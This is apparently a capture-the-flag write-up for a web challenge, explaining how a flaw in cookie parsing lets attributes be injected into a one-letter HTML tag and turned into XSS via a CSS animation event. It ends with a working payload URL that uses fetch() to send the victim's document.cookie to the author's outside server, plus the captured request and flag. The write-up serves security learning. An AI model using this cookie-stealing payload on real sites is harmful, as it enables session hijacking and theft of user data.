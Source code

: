 # Mission Invisible

### Category: Web

When loading the provided site, we're met with a pretty much blank (more on that later) page running the following script:

```
var getUrlParam = function (name) {
	var reg = new RegExp("(^|&)" + name + "=([^&]*)(&|$)");
	var r = unescape(window.location.search.substr(1)).match(reg);
	if (r != null) return r[2];
	return null;
}

function setCookie(name, value) {
	var Days = 30;
	var exp = new Date();
	exp.setTime(exp.getTime() + Days * 24 * 60 * 60 * 30);
	document.cookie = name + "=" + value + ";expires=" + exp.toGMTString();
}

function getCookie(name) {
	var search = name + "="
	var offset = document.cookie.indexOf(search)
	if (offset != -1) {
		offset += search.length;
		var end = document.cookie.indexOf(";", offset);
		if (end == -1) {
			end = document.cookie.length;
		}
		return unescape(document.cookie.substring(offset, end));
	}
	else return "";
}

function setElement(tag) {
	tag = tag.substring(0, 1);
	var ele = document.createElement(tag)
	var attrs = getCookie("attrs").split("&");
	for (var i = 0; i < attrs.length; i++) {
		var key = attrs[i].split("=")[0];
		var value = attrs[i].split("=")[1];
		ele.setAttribute(key, value);
	}
	document.body.appendChild(ele);
}

var tag = getUrlParam("tag");
setCookie("tag", tag);
setElement(tag);
```

The first part of the challenge is to obtain control of the attributes of the inserted element, made difficult because the script appears to be checking for an `attrs` cookie that we have no ability to set, since we only get to set the `tag` cookie.

The `setCookie` function looks sane, and in fact the `document.cookie` API can only set one cookie at a time, so there is no way to set the `attrs` cookie in addition to the `tag` cookie here.

The `getCookie` function, however, has a problem.  In the case of the `attrs` cookie, it will search for the string `attrs=` in the cookie and return everything up to the next semicolon.  However, this check _doesn't_ require that `attrs` be its own cookie -- the string `attrs=` could simply appear in another cookie, and that would be picked up!  Further, since `setElement` truncates the `tag` to the first character, we can insert the `attrs` bit in the `tag` cookie without ruining our HTML!

Putting all of this together, if we GET `/?tag=pattrs=style=color:red`, we see that the following element is inserted:

```
<p style="color:red"></p>
```

Now that we can insert attributes, we need to figure out how to leverage this to get an XSS.  The only well-recognized one-letter HTML tags are `<a>`, `<b>`, `<i>`, `<p>`, `<q>`, `<s>`, and `<u>`, none of which have obvious helpful attributes that we could use to immediately trigger an event handler (for example, if we could make an `input`, we could set `onfocus` and `autofocus` to get immediate execution).

This is the part where the "pretty much blank" part comes in.  The page does actually load in some CSS files:

```
<link href="assets/css/bootstrap.min.css" rel="stylesheet">
<link href="assets/css/starter-template.css" rel="stylesheet">
```

While `starter-template.css` is basically empty, `assets/css/bootstrap.min.css` provides a lot of styles.  This includes a couple of animations that we can apply to elements, including one called `progress-bar-stripes`.  While this might not seem immediately useful, you can listen for the start of a CSS animation in the DOM with the `onanimationstart` listener!  So all we need to do is GET `/?tag=pattrs=style=animation-name:progress-bar-stripes%2526onanimationstart=alert(1)`, and the script inserts this tag for us:

```
<p style="animation-name:progress-bar-stripes" onanimationstart="alert(1)"></p>
```

And indeed, we see the alert!  Now we can dump the bot's cookies by replacing our `alert(1)` with a `fetch` to a server we control.

###### Submission

```
http://52.52.236.217:16401/?tag=pattrs=style=animation-name:progress-bar-stripes%2526onanimationstart=fetch(%22http://ctf.bluepichu.com:9090/%22+document.cookie)
```

###### Received request

```
GET /flag=rwctf%7BfR0m1olotH!n9%7D;%20tag=pattrs=style=animation-name:progress-bar-stripes%26onanimationstart=fetch(%22http://ctf.bluepichu.com:9090/%22+document.cookie) HTTP/1.1
```

###### Decoded flag

```
rwctf{fR0m1olotH!n9}
```